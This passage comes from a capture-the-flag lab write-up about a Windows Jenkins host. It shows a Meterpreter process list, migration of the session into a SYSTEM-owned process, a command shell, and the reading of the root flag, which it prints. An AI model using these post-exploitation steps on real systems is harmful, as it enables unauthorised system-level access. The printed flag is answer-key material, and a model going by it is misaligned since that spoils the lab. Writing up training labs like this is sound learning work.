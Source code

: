     1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
    1028  2652  scp.exe               x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\test\scp.exe
    1068  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
    1180  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
    1212  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
    1316  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
    1408  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
    1432  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
    1460  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
    1644  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
    1696  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
    1744  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
    1824  1644  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
    1844  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
    1856  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
    1912  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
    2652  848   powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
    2676  1028  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
    2728  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
    2948  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
    2984  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe

    meterpreter > migrate 1844
    [*] Migrating from 1028 to 1844...
    [*] Migration completed successfully.

#5 	

read the root.txt file at C:\Windows\System32\config

meterpreter > shell
Process 2840 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd config
cd config

C:\Windows\System32\config>type root.txt
type root.txt
dff0f748678f280250f25a45b8046b4a


Root Flag: dff0f748678f280250f25a45b8046b4a

Complete!